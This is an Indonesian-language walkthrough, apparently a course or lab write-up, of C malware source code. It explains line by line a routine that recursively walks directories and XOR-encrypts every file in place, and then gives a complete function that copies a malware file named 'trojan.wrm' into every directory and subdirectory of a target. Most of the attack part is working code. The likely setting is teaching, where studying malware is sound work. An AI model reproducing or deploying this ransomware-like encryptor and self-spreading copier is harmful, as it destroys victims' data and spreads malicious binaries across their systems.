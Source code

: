 - `fseek(fp, 0, SEEK_END); long ukuranFile = ftell(fp); rewind(fp);` Digunakan untuk menentukan ukuran file. fseek memindahkan kursor ke akhir file, lalu ftell mengambil posisi kursor (yang berarti ukuran file). rewind mengembalikan posisi baca ke awal file.
- `unsigned char *buffer = malloc(ukuranFile); if (!buffer) { fclose(fp); return; }` Mengalokasikan memori sebanyak ukuran file untuk menampung isi file.
- `fread(buffer, 1, ukuranFile, fp); rewind(fp);` Membaca seluruh isi file ke dalam buffer, lalu kembali ke awal file.
- `for (long i = 0; i < ukuranFile; i++) { buffer[i] ^= kunci; }` Melakukan operasi XOR terhadap setiap byte data dengan kunci untuk mengenkripsi
- `fwrite(buffer, 1, ukuranFile, fp); fclose(fp); free(buffer);` Menulis ulang isi buffer yang sudah dienkripsi ke file, lalu menutup file dan membebaskan alokasi memori.

- `struct dirent *entri; DIR *direktori = opendir(pathDasar); if (!direktori) return;` Membuka direktori berdasarkan path yang diberikan.
- `while ((entri = readdir(direktori)) != NULL) { if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0) continue;` Membaca isi direktori satu per satu.
- `snprintf(pathLengkap, sizeof(pathLengkap), "%s/%s", pathDasar, entri->d_name);` Membentuk path lengkap dari file atau folder yang sedang diproses.
- `struct stat infoPath; if (stat(pathLengkap, &infoPath) == -1) continue;` Mengambil informasi tentang path tersebut.
- `if (S_ISDIR(infoPath.st_mode)) { encrypt(pathLengkap, kunci); } else if (S_ISREG(infoPath.st_mode)) { encryptfile(pathLengkap, kunci);}` Jika entri adalah direktori, panggil encrypt lagi secara rekursif.

3. Penyebaran Trojan ke Direktori dan Subdirektori
```bash
void trojan(const char *direktoriTarget, const char *lokasiMalware) {
    DIR *dir = opendir(direktoriTarget);
    if (!dir) return;

    struct dirent *entri;
    char path[1024];

    while ((entri = readdir(dir)) != NULL) {
        if (strcmp(entri->d_name, ".") == 0 || strcmp(entri->d_name, "..") == 0)
            continue;

        snprintf(path, sizeof(path), "%s/%s", direktoriTarget, entri->d_name);

        struct stat st;
        if (stat(path, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            trojan(path, lokasiMalware);
        }
    }

    char pathTujuan[1024];
    snprintf(pathTujuan, sizeof(pathTujuan), "%s/trojan.wrm", direktoriTarget);

    FILE *src = fopen(lokasiMalware, "rb");
    FILE *dst = fopen(pathTujuan, "wb");
    if (src && dst) {
        char buf[4096];
        size_t jumlah;
        while ((jumlah = fread(buf, 1, sizeof(buf), src)) > 0) {
            fwrite(buf, 1, jumlah, dst);
        }
    }
    if (src) fclose(src);
    if (dst) fclose(dst);

    closedir(dir);
}
```